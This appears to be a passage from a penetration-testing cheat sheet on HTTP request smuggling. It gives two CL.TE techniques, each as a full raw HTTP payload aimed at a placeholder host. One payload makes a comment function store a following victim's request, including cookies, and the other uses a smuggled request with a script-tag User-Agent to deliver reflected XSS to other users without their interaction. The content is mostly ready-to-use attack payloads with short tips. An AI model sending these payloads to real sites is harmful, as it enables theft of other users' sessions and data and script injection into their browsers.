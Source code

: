### <mark style="color:yellow;">Capturing other users' requests</mark> <a href="#capturing-other-users-requests" id="capturing-other-users-requests"></a>

<mark style="color:yellow;">**CL.TE**</mark>

Smuggle a request that submits data to the storage function, with the parameter containing the data to store positioned last in the request.

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 198
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Cookie: session=dL3MaAvRhsnHdriaFnPxSdvXdt3jx6B1
Content-Length: 650

csrf=ihmEx8D&postId=1&name=test&email=test@test.test&comment=
```

{% hint style="info" %}
**Note**: One limitation with this technique is that it will generally only capture data up until the parameter delimiter that is applicable for the smuggled request. For URL-encoded form submissions, this will be the `&` character, meaning that the content that is stored from the victim user's request will end at the first `&`, which might even appear in the query string
{% endhint %}

{% hint style="success" %}
**Tip**: Another way to steal other users' responses is with the [#response-queue-poisoning](http-request-smuggling.md#response-queue-poisoning "mention") technique.
{% endhint %}

### <mark style="color:yellow;">Exploit reflected XSS</mark>

<mark style="color:yellow;">**CL.TE**</mark>

You can use a request smuggling attack to target other users of the application. This method is better than standard reflected XSS because it doesn't require victim interaction and can exploit XSS in areas like HTTP headers, which are not possible to control in typical attacks.

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```
